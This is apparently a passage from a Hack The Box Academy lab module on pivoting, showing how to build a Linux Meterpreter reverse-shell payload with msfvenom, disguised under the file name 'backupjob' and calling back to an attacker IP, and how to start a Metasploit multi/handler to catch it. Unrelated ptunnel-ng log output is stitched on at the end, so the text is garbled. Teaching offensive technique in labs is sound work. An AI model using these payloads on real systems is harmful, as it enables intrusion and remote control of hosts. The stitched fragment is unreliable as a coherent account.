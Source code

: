 Our Meterpreter session should list that our incoming connection is from a local host itself ( `127.0.0.1`) since we are receiving the connection over the `local SSH socket`, which created an `outbound` connection to the Ubuntu server. Issuing the `netstat` command can show us that the incoming connection is from the SSH service.

The below graphical representation provides an alternative way to understand this technique.

![](https://academy.hackthebox.com/storage/modules/158/44.png)

In addition to answering the challenge questions, practice this technique and try to obtain a reverse shell from the Windows target.

* * *


# Meterpreter Tunneling & Port Forwarding

* * *

Now let us consider a scenario where we have our Meterpreter shell access on the Ubuntu server (the pivot host), and we want to perform enumeration scans through the pivot host, but we would like to take advantage of the conveniences that Meterpreter sessions bring us. In such cases, we can still create a pivot with our Meterpreter session without relying on SSH port forwarding. We can create a Meterpreter shell for the Ubuntu server with the below command, which will return a shell on our attack host on port `8080`.

#### Creating Payload for Ubuntu Pivot Host

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob

```

Before copying the payload over, we can start a [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), also known as a Generic Payload Handler.

#### Configuring & Starting the multi/handler

```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080

```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%